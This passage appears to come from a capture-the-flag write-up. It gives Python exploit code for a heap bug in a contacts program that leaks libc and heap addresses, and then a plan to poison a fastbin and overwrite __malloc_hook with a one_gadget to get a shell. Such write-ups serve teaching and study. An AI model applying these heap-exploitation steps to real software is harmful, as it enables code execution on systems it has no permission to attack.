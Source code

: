 ```python
    set_bio(first_leak_name, '\x00'*15)
    del_contact(first_leak_name)
    add_contact('B'*15)
    add_contact('C'*15)
    
    """ Print the details of our contacts. The last contact we added will have its bio point to put_got_entry - libc address leak."""
    output = display().split('\n')[contacts_count - 1]
    leaked_puts_address = (output[output.find('- ') + len('- '):].rstrip('\n')).encode('hex')
    print leaked_puts_address
    leaked_puts_address = int(''.join([leaked_puts_address[x: x + 2] for x in range(0, len(leaked_puts_address), 2)][::-1][:6]), 16)
    
    """ Calculate the addresses in libc that are relevant for us."""
    libc_base = leaked_puts_address - libc.symbols['puts']
    __malloc_hook_address = libc_base + libc.symbols['__malloc_hook']
    print '-'*75
    print 'Leaked puts address:', hex(leaked_puts_address)
    print 'Libc base:', hex(libc_base)
    print '__malloc_hook:', hex(__malloc_hook_address)
    print '-'*75
    
    """ Same as first leak. This time we are leaking an address in the heap."""
    second_leak_name = 'LeakHeap' + p64(contacts_addr)[:-1]
    add_contact(second_leak_name)
    set_bio(second_leak_name, '\x00'*15)
    del_contact(second_leak_name)
    add_contact('D'*15)
    add_contact('E'*15)
    
    """ Print the details of our contacts. The last contact we added will have its bio point to the contacts array - heap address leak."""
    output = display().split('\n')[contacts_count - 1]
    print output
    leaked_heap_address = (output[output.find('- ') + len('- '):].rstrip('\n')).encode('hex')
    leaked_heap_address = int(''.join([leaked_heap_address[x: x + 2] for x in range(0, len(leaked_heap_address), 2)][::-1][:6]), 16)
    print '-'*75
    print 'Leaked heap address:', hex(leaked_heap_address)
    print '-'*75
```

We leaked both libc and an address in the heap. The idea I had was to forge a heap chunk inside the heap and free it with the same technique we used in order to leak values (This time calling delete_contact instead of display). We then allocate a new chunk with the size we just freed and use it to overwrite the next field of a chunk we freed earlier. By doing so we can make it return an arbitrary pointer (as long as it has a size header that fits the same fastbin of the free chunk).  

When returning a pointer of our choice, there is no better candidate then the infamous __malloc_hook-0x23.  

If we do things correctly we will be able to overwrite __malloc_hook with a one_gadget address and get a shell.  
